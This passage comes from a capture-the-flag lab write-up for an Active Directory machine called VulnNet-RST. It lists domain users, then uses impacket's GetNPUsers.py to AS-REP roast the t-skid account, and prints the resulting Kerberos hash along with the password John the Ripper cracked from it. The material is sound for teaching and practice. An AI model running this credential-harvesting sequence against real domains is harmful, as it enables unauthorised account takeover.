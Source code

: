 526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

We only need the SidTypeUser.

```
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

If Kerberos pre-authentication is disabled on any of the above accounts, we can use the GetNPUsers impacket script to send a request for authentication KDC which will then return a TGT that is encrypted with the user’s password.

NOTE:- add `vulnnet-rst.local` with IP to `/etc/hosts` 

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ GetNPUsers.py -dc-ip vulnnet-rst.local vulnnet-rst.local/t-skid -no-pass
Impacket v0.9.24.dev1+20210629.123513.142cacb6 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for t-skid
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:7bfbc6a7a10f6496e1420c5b78356206$083b8715ab6ee61199460164f2b0658cd2461f787279e216b91b4372daee175c9d18960178f8f7594d1cdb991e4b03e18c1ba422620178be04499cceb6e77680aca65eafb479f018b3b90ac3bd5ad94918e25c0e26227624d69000e33486c92735eb2a42bce47b816feaa6e0b8bfad800829658f3116ae9324549976fe1d4a6df49b1bbeb72d8016582516faffa78801e052eb2b8ea04c6ad807d7fe8c3d626a0ea6a1e70e52cb4c98f2683adba9e3bf8214f6a5b5c183484f3f4f3dfc96920402d4c05a56772e0174e1b33d9523d34e768f51fd7b958b80934de0484a14b2d25490c7eac00d19a963aba0a32fc6d566c00a6085deea
```

Kerberos pre-authentication was disabled for user `t-skid` and we have the hash let crack it using `John The Ripper` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/TryHackMe/vulnetroasted]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)
1g 0:00:00:04 DONE (2021-07-12 09:38) 0.2087g/s 663569p/s 663569c/s 663569C/s tjalling..tj0216044
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
```